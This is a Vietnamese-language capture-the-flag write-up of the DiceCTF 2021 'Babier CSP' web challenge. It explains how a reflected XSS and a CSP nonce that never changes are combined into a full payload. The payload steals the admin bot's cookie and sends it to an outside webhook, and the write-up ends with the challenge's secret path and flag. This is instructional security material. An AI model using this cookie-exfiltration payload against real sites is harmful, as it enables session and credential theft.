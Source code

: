 # BABIER CSP
### Thử thách: 
- [Baby CSP](https://2020.justctf.team/challenges/14)  was too hard for us, try Babier CSP.
- [babier-csp.dicec.tf](https://babier-csp.dicec.tf/)
- [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)
- The admin will set a cookie  `secret`  equal to  `config.secret`  in index.js.
- Downloads
``index.js``
### Kiến thức nền:
- Content Security Policy (CSP).
- XSS (Cross-site scripting).
- Webhook (Reverse API).
### Giải quyết vấn đề:
1/ Initial reconnaissance:
Đề bài cho hai trang 1 là của client và 1 là của admin. Check thằng client trước xem sao:
![image](https://user-images.githubusercontent.com/61876488/107622961-36c3fd00-6c8b-11eb-8344-05a60fc4db10.png)

Bấm thử vào cái dòng "View Fruit" liên tục thì nó hiện ra tên các loại Fruit:v

![image](https://user-images.githubusercontent.com/61876488/107623162-80ace300-6c8b-11eb-998b-b69306aa4ab5.png)

CTRL + U rồi check source code xem:
```html
<html>
<a href='#' id=elem>View Fruit</a>
<script nonce=g+ojjmb9xLfE+3j9PsP/Ig==>
elem.onclick = () => {
location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
</html>
```
Từ source code ta biết được trang web này sẽ random các loại Fruit bao gồm "apple", "orange", "pineapple", "pear" rồi hiển thị tên nó lên mỗi lần mình click vào dòng "View Fruit". Tên của các fruit này được truyền thông qua GET parameter "name". Thử inject một vài thứ gì đó vui vui xem nào. 

![image](https://user-images.githubusercontent.com/61876488/107624024-d46bfc00-6c8c-11eb-8ccc-7793e966d6e0.png)

Uầy!! Được luôn nè! Như vậy khả năng cao trang web này bị dính XSS rồi. Tiếp tục khai thác thôi.
2/ Bypassing CSP to exploiting XSS:
Vừa đúng lúc ngày hôm qua mới được học về XSS. Tuy nhiên khi check thử vài payload XSS mẫu như `<script> alert(1) </script>` (script hiện dòng cảnh báo có nội dung là "1" ở trên trang web ) thì không thấy gì cả. Check lại source code của trang web thì tôi phát hiện ra 1 điều đáng ngờ:
```html
<script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='> ... </script>
```
Đây là thẻ script chứa câu lệnh để random các loại fruit rồi print ra. Thẻ này có một thuộc tính mà tôi chưa gặp bao giờ `nonce='g+ojjmb9xLfE+3j9PsP/Ig=='`. Thử research 1 chút thì tôi biết được ["nonce"](https://content-security-policy.com/nonce/) là một thuộc tính được quy định trong CSP ([Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)). Chỉ cần paste url vào [đây](https://csp-evaluator.withgoogle.com/) là chúng ta có thể đọc được toàn bộ CSP của trang web đó:

![image](https://user-images.githubusercontent.com/61876488/107743763-186e0800-6d44-11eb-814a-631d50616949.png)

Từ CSP check được ta kết luận rằng tất cả các thẻ trong HTML Document đều không bị "ruled" bởi CSP (vì directive [default-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) được set giá trị là "none"), chỉ có duy nhất thẻ script là bị "ruled" (vì [script-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) được set giá trị là "nonce-g+ojjmb9xLfE+3j9PsP/Ig=="). Điều này có nghĩa là nếu muốn inject một thẻ script vào HTML Document của trang web này, ta phải kèm vào nó một thuộc tính nonce với giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='. Download code javascript (NodeJS) "index.js" từ đề bài, tìm thấy dòng code set giá trị cho thuộc tính "nonce" này bằng phương thức [randombytes](https://nodejs.org/api/crypto.html#crypto_crypto_randombytes_size_callback): 
```javascript
const  NONCE = crypto.randomBytes(16).toString('base64');
```
Nhìn có vẻ như giá trị nonce này sẽ random liên tục và mỗi giá trị nonce sẽ chỉ xuất hiện 1 lần mỗi khi ta refresh lại trang (đúng theo quy tắc là thế). Nhưng bằng 1 cách magic nào đó, refresh cái trang này bao nhiêu lần nonce vẫn giữ nguyên giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='??? Ngon quá, vậy là chỉ cần ốp nguyên cái thằng nonce này vào payload là xong hihi!

![image](https://user-images.githubusercontent.com/61876488/107749166-bb2a8480-6d4c-11eb-886e-cd13a7c47cf3.png)

Đã xong phần XSS payload. Như vậy chúng ta hoàn toàn có thể tấn công vào trang web này thông qua lỗ hổng Reflected XSS (các bạn có thể tham khảo về các vuln XSS tại [đây](https://ethical-h4ckers-club.blogspot.com/2020/10/xss-co-ban-cors-va-csp.html)). 
3/ Đánh cắp cookie từ trang admin:
Thông thường khi muốn đánh cắp cookie bằng XSS bạn cần host một server đóng vai trò là điểm cuối tiếp nhận request gửi đến từ trang của victim (do payload XSS đã làm thay đổi đường đi của ban đầu request, thay vì đến nơi cần đến, nó sẽ đến server do bạn host và bạn có thể tha hồ đọc nó!). Thật may mắn là tôi có tìm được một site khá tiện lợi mà đơn giản cho phép chúng ta tạo một [webhook](https://topdev.vn/blog/webhook-la-gi/) có tên là [requestcatcher](https://requestcatcher.com/). Chỉ cần gõ vài phát là bạn có ngay một cái webhook:D

![image](https://user-images.githubusercontent.com/61876488/107753501-bcf74680-6d52-11eb-89bf-18ca9ecabb71.png)

![image](https://user-images.githubusercontent.com/61876488/107753550-cda7bc80-6d52-11eb-96e9-88b683c4cb96.png)

Bây giờ chỉ cần viết lại payload dựa theo CSP đã quy định của trang web:
```html
</h1>  <!-- đóng thẻ h1 lại vì trong HTML có 1 thẻ <h1> (open) -->
<script  nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>   <!-- mở thẻ script với giá trị nonce đã được quy định --> 
scrp_tag = document.createElement('script');  <!-- tạo đối tượng "thẻ script"mới tên là "scrp_tag" -->
scrp_tag.src = 'https://antoine.requestcatcher.com/? flag='.concat(JSON.stringify(document.cookie)); <!-- chỉnh attribute src của "scrp_tag" để request của admin bot được redirect đến webhook mà ta đã tạo và chứa trong đó tham số "flag" được gán bằng cookie của admin bot --> 
scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig==' <!-- setup attribute nonce của "scrp_tag" cho phù hợp với CSP -->
contain_tag = document.querySelector("body"); <!-- tham chiếu đến thẻ body của HTML Document -->
contain_tag.appendChild(scrp_tag); <!-- thêm "scrp_tag" vào body của HTML Document để thực thi script -->
</script>
</h1>
```
Cuối cùng chúng nhúng cái payload này vào link babier-csp.dicec.tf (vì Admin chỉ evaluate một mình cái link này) bằng cách gán nó vào parameter name:
```
https://babier-csp.dicec.tf/?name=</h1><script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>scrp_tag = document.createElement('script'); scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig=='; scrp_tag.src = 'https://antoine.requestcatcher.com/?xss='.concat(JSON.stringify(document.cookie)); contain_tag = document.querySelector("body"); contain_tag.appendChild(scrp_tag);</script></h1>
```
Well well well, hãy xem chúng ta có gì ở webhook https://antoine.requestcatcher.com/ sau khi submit cái link đó ở Admin Bot:

![image](https://user-images.githubusercontent.com/61876488/107759051-5544f980-6d5a-11eb-8655-28f9603c037d.png)
 
 Kết quả trả về ở tham số "flag" là một tham số khác có tên là "secret". Cái tên này nghe khá là quen, hình như mình gặp đâu đó rồi...Hmmm, đây rồi, ngay trong souce code "index.js":
 ```javascript
 const  SECRET = config.secret;
 // to be continued...
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
Hằng SECRET được gán bằng "config.secret", có khả năng "config.secret" là tham số "secret". Đáng chú ý nhất là hàm [middleware](http://expressjs.com/en/guide/using-middleware.html#middleware.built-in) [express.static](https://expressjs.com/en/4x/api.html#express.static) - một hàm chuyên dùng để đọc và xử lý các nội dung tĩnh như file HTML, ảnh... Có thể tạm hiểu rằng sử dụng đường dẫn với token `4b36b1b8e47f761263796b1defd80745` trong request mà ta bắt được sẽ dẫn tới file "secret" của server:

    https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/

Truy cập URL này ta thu được:

![image](https://user-images.githubusercontent.com/61876488/107773599-7adcfd80-6d70-11eb-8db4-00b3a14453a6.png)

Yolo!! CTRL + U rồi lấy flag thôi hehe:

    dice{web_1s_a_stat3_0f_grac3_857720}
